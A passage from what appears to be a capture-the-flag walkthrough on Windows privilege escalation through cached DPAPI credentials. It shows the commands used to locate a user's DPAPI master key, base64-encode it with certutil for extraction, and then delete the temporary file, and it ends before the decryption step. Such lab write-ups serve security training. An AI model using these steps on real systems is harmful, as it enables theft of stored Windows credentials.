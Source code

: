 ### Privesc #2 - dpapi creds

As the creds are cached, I can extract them. harmj0y has a [good write-up on this](https://www.harmj0y.net/blog/redteaming/operational-guidance-for-offensive-user-dpapi-abuse/).

#### Collect Files

I’ll grab two binary files from windows host, the master key and credentials file.

First, I’ll find the master key:

```

C:\Users\security\AppData\Roaming\Microsoft\Protect\S-1-5-21-953262931-566350628-63446256-1001>dir /a
 Volume in drive C has no label.
 Volume Serial Number is 9C45-DBF0

 Directory of C:\Users\security\AppData\Roaming\Microsoft\Protect\S-1-5-21-953262931-566350628-63446256-1001

12/11/2018  04:47 PM    <DIR>          .
12/11/2018  04:47 PM    <DIR>          ..
08/22/2018  09:18 PM               468 0792c32e-48a5-4fe3-8b43-d93d64590580
08/22/2018  09:18 PM                24 Preferred
               2 File(s)            492 bytes
               2 Dir(s)  16,764,465,152 bytes free

```

Next I’ll use `certutil` to base64 encode it:

```

C:\Users\security\AppData\Roaming\Microsoft\Protect\S-1-5-21-953262931-566350628-63446256-1001>certutil -encode 0792c32e-48a5-4fe3-8b43-d93d64590580 output                                                                                                    
Input Length = 468
Output Length = 700
CertUtil: -encode command completed successfully.

C:\Users\security\AppData\Roaming\Microsoft\Protect\S-1-5-21-953262931-566350628-63446256-1001>type output
-----BEGIN CERTIFICATE-----
AgAAAAAAAAAAAAAAMAA3ADkAMgBjADMAMgBlAC0ANAA4AGEANQAtADQAZgBlADMA
LQA4AGIANAAzAC0AZAA5ADMAZAA2ADQANQA5ADAANQA4ADAAAAAAAAAAAAAFAAAA
sAAAAAAAAACQAAAAAAAAABQAAAAAAAAAAAAAAAAAAAACAAAAnFHKTQBwjHPU+/9g
uV5UnvhDAAAOgAAAEGYAAOePsdmJxMzXoFKFwX+uHDGtEhD3raBRrjIDU232E+Y6
DkZHyp7VFAdjfYwcwq0WsjBqq1bX0nB7DHdCLn3jnri9/MpVBEtKf4U7bwszMyE7
Ww2Ax8ECH2xKwvX6N3KtvlCvf98HsODqlA1woSRdt9+Ef2FVMKk4lQEqOtnHqMOc
wFktBtcUye6P40ztUGLEEgIAAABLtt2bW5ZW2Xt48RR5ZFf0+EMAAA6AAAAQZgAA
D+azql3Tr0a9eofLwBYfxBrhP4cUoivLW9qG8k2VrQM2mlM1FZGF0CdnQ9DBEys1
/a/60kfTxPX0MmBBPCi0Ae1w5C4BhPnoxGaKvDbrcye9LHN0ojgbTN1Op8Rl3qp1
Xg9TZyRzkA24hotCgyftqgMAAADlaJYABZMbQLoN36DhGzTQ
-----END CERTIFICATE-----

C:\Users\security\AppData\Roaming\Microsoft\Protect\S-1-5-21-953262931-566350628-63446256-1001>del output

```
